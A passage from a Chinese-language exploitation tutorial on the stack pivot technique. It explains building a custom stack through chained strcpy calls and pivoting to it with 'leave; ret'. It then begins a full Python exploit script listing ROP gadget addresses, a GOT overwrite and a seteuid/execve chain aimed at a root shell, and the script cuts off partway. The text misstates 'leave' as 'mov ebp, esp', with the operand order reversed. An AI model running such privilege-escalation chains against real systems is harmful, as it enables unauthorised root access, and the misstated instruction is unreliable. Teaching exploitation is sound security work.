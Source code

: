 *   四个`strcpy`调用 – 每个十六进制值（`0x08, 0x04, 0x83, 0xc0`）使用一个`strcpy`调用。
*   `strcpy`的来源参数应该是可执行内存区域的地址，它包含所需的十六进制值，并且我们也需要确保这个值不被改动，它在所选的内存区域存在。
*   `strcpy`的目标参数应该是自定义栈位置的目标地址。

遵循上面的过程，我们就建立了完整的自定义栈。一旦自定义栈建立完成，我们需要将自定义栈移动到真实的栈上，使用 stack pivot 技巧。

> 什么是 stack pivot？

stack pivot 使用`leave ret`指令来实现。我们已经知道了，`leave`指令会翻译为：

```
mov ebp, esp
pop ebp
```

所以在`leave`指令之前，使用自定义栈地址来加载 EBP – 当`leave`指令执行时，会使 ESP 指向 EBP。所以，在转移到自定义栈之后，我们会继续执行一 Libc 函数序列，它们加载到了自定义栈上，然后就获得了 root shell。

## 完整的利用代码

```
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

#GOT overwrite using ROP gadgets
'''
 G1: 0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ;
 G2: 0x080484a2: popl %ebx ; pop ebp; ret ;
 G3: 0x????????: popl %eax ; ret ; (NOT found)
 G4: 0x080485b3: mov 0x34(%esp),%eax...
 G5: 0x08048380: pop ebx ; ret ;
 G6: 0x080485cd: pop esi ; pop edi ; pop ebp ; ret ;
 G7: 0x08048498: movb $0x1,0x804a028...
'''

g1 = 0x0804849e
g2 = 0x080484a2
g4 = 0x080485b3
g5 = 0x08048380
g6 = 0x080485cd
g7 = 0x08048498
dummy = 0xdeadbeef
esi = 0x01020101
edi = 0x01020102
ebx = 0x3fc9c18               #ebx = 0x8049f3c - (esi*4) + 0xe0
off = 0xfffff530

#Custom Stack
#0x804a360 - Dummy EBP|seteuid@PLT|getuid@PLT|seteuid_arg|execve_arg1|execve_arg2|execve_arg3
cust_esp = 0x804a360          #Custom stack base address
cust_base_esp = 0x804a360     #Custom stack base address
#seteuid@PLT 0x80483c0
seteuid_oct1 = 0x8048143      #08
seteuid_oct2 = 0x8048130      #04
seteuid_oct3 = 0x8048355      #83
seteuid_oct4 = 0x80481cb      #c0
#getuid@PLT 0x80483b0
getuid_oct1 = 0x8048143       #08
getuid_oct2 = 0x8048130       #04
getuid_oct3 = 0x8048355       #83
getuid_oct4 = 0x80483dc       #b0
#seteuid_arg 0x00000000
seteuid_null_arg = 0x804a360
#execve_arg1 0x804ac60
```